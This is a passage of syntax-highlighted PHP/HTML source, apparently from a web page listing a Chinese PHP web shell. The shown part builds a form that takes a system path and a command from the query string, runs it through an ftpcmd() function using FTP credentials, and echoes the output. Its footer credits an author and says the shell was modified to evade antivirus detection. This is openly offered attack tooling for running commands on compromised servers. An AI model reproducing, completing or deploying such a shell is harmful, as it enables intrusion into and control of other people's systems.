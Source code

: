     <li class="alt">
      <span><span class="string"><tr><td&nbsp;width="300"&nbsp;align="center">系统路径(别忘了写"\")：</td><td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="dir"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$dir?>"></td></tr></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><tr><td&nbsp;width="300"&nbsp;align="center">执行的命令：</td>&nbsp;<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="cmd"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$_GET['</span><span>cmd</span><span class="string">']?>"></td></tr></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><tr><td&nbsp;width="300"&nbsp;align="center"><input&nbsp;name="action"&nbsp;type="hidden"&nbsp;value="execute"></td></tr></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><tr><td&nbsp;width="300"&nbsp;align="center"><input&nbsp;type="submit"&nbsp;class="INPUT"&nbsp;value="执行"></td></tr></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"></form></tr></table><hr&nbsp;width="660"><br></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><textarea&nbsp;cols="60"&nbsp;rows="10"&nbsp;readonly>命令回显:</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><?php</span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">//执行命令</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">if&nbsp;($_GET['</span><span>action</span><span class="string">']=="execute"){&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ftpcmd($ftpport,$user,$password,$dir,$_GET['<span>cmd</span><span class="string">']);</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">?></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"></textarea></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"></center><br><hr&nbsp;width="660"></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><i><center>Copycenter&nbsp;(C)&nbsp;2004&nbsp;我非我&nbsp;All&nbsp;centers&nbsp;Reserved.&nbsp;免杀修改&nbsp;BY:CiKer&nbsp;从此Hacking的道路更宽敞了&#8230;<br></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"></center></i></span>&nbsp;</span>
    </li>